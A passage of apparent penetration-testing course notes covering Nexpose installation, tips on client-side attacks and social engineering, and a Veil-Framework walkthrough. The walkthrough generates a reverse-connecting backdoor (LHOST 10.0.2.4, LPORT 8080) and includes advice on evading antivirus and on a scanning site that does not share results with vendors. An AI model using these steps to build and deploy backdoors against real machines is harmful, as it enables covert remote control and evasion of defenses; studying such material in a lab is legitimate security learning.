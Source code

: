 ```sh
exploit
```

## chapter 60

NEXPOSE

```sh
service postgresql stop
chmod +x [installer file name]
./[installer file name]
```

## chapter 63

- use if server side attacks fail.
- if IP is probably useless.
- require user interaction.
- social engineering can be very useful.
- information gathing is vital.

## chapter 64

VEIL - framework

- a backdoor is a file that gives us full control over the machine that it gets executed on.
- backdoors can be caught by anti-virus programs.
- veil is a framework for generating undetectable backdoors.

```sh
cd /opt
git clone https://github.com/Veil-Framework/Veil.git
cd Veil
cd config
./setup.sh --silent --force

# after finished, start the program
cd /opt/Veil
./Veil.py
> list
> use 1
> list
> use 15
> set LHOST 10.0.2.4
> set LPORT 8080
> options
> generate
# set other options to make the programs unique to avoid be dected by Anti-virus software
```
https://nodistribute.com/ don't share the scan results.

## chapter 67
